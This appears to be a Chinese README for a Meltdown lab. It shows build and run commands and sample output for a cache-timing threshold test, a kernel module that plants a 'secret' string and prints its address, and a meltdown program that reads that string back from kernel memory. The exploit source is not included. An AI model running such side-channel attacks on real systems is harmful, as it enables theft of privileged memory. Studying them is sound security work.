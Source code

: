 ## CacheTime
这是一个测量 Cache Threshold 的简单Toy

编译并运行它：
```
gcc -march=native CacheTime.c -o cachetime

./cachetime
```
你可以看到一下输出：
```
Access time for array[0*4096]: 246 CPU cycles
Access time for array[1*4096]: 308 CPU cycles
Access time for array[2*4096]: 322 CPU cycles
Access time for array[3*4096]: 66 CPU cycles
Access time for array[4*4096]: 250 CPU cycles
Access time for array[5*4096]: 254 CPU cycles
Access time for array[6*4096]: 250 CPU cycles
Access time for array[7*4096]: 66 CPU cycles
Access time for array[8*4096]: 272 CPU cycles
Access time for array[9*4096]: 256 CPU cycles
```
于是，我们可以看出 Cache Threshold 大约为 70~100 个时钟周期

## Kernel
这是一个内核模块，我们用于模拟 `Secret` 数据，我们将定义好的字符串放在内核模块中，编译并运行模块，它会在 `ring` 缓冲区中打印 `Secret address`。

我们根据这个地址，用 meltdown 攻击获取到我们定义好的字符串，以此来模拟 meltdown 攻击。

+ 首先编译模块：
    ```
    make
    ```
+ 安装模块：
    ```
    sudo insmod YYHKernel.ko
    ```
+ 查看打印的地址：
  ```
  sudo dmesg | grep "secret data addr"
  ```
    你会看到类似的如下输出：
    ```
    [1102539.849372] secret data addr:ffffffffc0581000
    ```
`0xffffffffc0581000` 就是我们 `Secret data` 的地址，但是通过地址直接访问会出现段错误，因为它在内核中。

在 Test 中做了这样的尝试。

下面我们采用 Meltdown 获取`Secret data`

## Meltdown
编译：
```
make
```
运行：
```
./meltdown 0xffffffffc0581000
```
你会看到类似的如下输出：
```
The secret value is K
The secret value is H
The secret value is A
The secret value is O
The secret value is S
The secret value is Y
The secret value is Y
The secret value is H
```

